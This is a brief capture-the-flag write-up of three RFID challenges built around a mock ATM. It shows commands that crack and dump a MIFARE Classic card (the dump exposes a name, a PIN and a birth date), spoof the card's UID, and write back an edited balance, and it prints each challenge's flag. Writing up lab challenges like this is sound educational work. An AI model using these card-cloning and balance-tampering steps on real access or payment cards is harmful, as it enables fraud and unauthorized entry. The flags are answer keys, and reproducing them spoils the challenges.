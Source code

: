 ```yaml
---
ai_date: 2025-04-27 05:25:14
ai_summary: Exploited cleartext RFID data and UID spoofing to gain access, manipulated balance for flag
ai_tags:
  - rfid
  - uid-spoofing
  - balance-manipulation
created: 2025-03-01T18:34
points: 1500
solves: 13
updated: 2025-07-14T09:46
---
```


Fun first time RFID challenge!
## RFID 1 - Cleartext

```bash
mfoc -O carddump.mdf
```

```
�X�bcdefghi��������i������QVRIQUNLQ1RGezBrTjB3SDRja1RoM0FUTSEhfQ==��������i��������������i��������������i��������������i��������������i��������������i��������������i��������������i��������������i������FIRSTNAME:ROGERLASTNAME:???BALANCE:0015$80c��������i������POSTCODE:H3G1M8PINCODE:6372BIRTH:30/06/1998��������i��������������i��������������i��������������i��������������i������
```

```flag
ATHACKCTF{0kN0wH4ckTh3ATM!!}
```

## RFID 2 - UIDentity Crisis

I renamed myself to Roger but couldn't get anything new out of the ATM machine.

---

Turns out admin forgot to include an image.

```bash
nfc-mfsetuid deadbeef
```

```flag
ATHACKCTF{Sp00fingUIDz}
```

## RFID 3 - Pay2Win

By editing the amount of money we have to 9900+, we can go to the ATM and buy a flag.

To write the new info to card, use this.

```bash
nfc-mfclassic w b carddump1.new.mdf carddump1.mdf f
```

```flag
ATHACKCTF{printf('$money$');}
```